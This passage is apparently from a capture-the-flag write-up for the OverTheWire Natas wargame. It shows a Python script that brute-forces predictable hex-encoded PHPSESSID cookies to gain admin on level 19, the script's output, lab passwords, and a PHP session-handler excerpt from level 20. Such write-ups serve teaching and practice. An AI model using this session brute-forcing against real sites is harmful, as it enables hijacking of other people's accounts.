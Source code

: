 So we have `{random_int}-{username}`. Chances are pretty high that the username is set to admin. So we have to execute the same bruteforce: `{bruteforce_here}-admin`.

```python
#! /usr/bin/env python3
import requests
import binascii

baseUrl = 'http://natas19.natas.labs.overthewire.org/index.php'
for i in range(0, 640):
    PHPSESSID = str(i)+'-admin'
    print('Sending '+PHPSESSID+' => ', end='')
    PHPSESSID = binascii.hexlify(str.encode(PHPSESSID)).decode()
    print(PHPSESSID)
    r = requests.get(baseUrl, auth=('natas19', '4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs'), cookies={'PHPSESSID':PHPSESSID})
    if 'You are logged in as a regular user' not in r.text:
        break
```

Output:
```
Sending 278-admin => 3237382d61646d696e
Sending 279-admin => 3237392d61646d696e
Sending 280-admin => 3238302d61646d696e
Sending 281-admin => 3238312d61646d696e
```

> See [natas19-bruteforce.py](/assets/overthewire/natas19-bruteforce.py) for source code

Change you cookie value to `3238312d61646d696e` and you're all set!
```
You are an admin. The credentials for the next level are:
Username: natas20
Password: eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF
```

The password for the level 20 is `eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF`.

### Level 20 - Custom Session handling
```
http://natas20.natas.labs.overthewire.org/ natas20 eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF
```
Highlights on `myread()` (called by `session_set_save_handler()` and `print_credentials()`:
```php
function myread($sid) {
  $_SESSION = array(); // reset session
  $data = file_get_contents($filename); // read from /session/my_sess_4678437324
  // each line is exploded by a space, left side is the key, right side is the value:
  // key1 value1
  // key2 value2
}
function print_credentials() {
  if($_SESSION["admin"] == 1)
    // good boy
}
```
